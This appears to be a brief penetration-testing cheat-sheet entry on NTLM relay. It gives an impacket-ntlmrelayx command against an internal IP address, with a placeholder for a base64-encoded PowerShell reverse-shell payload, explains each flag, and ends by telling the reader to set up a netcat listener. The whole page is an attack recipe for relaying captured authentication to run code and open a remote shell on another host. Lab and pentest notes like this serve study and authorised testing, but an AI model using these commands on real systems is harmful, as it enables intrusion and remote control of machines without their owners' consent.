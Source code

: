 # NTLM Relay

{% code overflow="wrap" %}
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.242 -c "{powershell base64 encoded payload}"
```
{% endcode %}

* &#x20;**--no-http-server**: disable HTTP server&#x20;
* **-smb2support**: enable SMB2 support
* **-t**: target IP
* **-c**: command
  * use revshell powershell base64 encoded payload

Set up netcat listener.



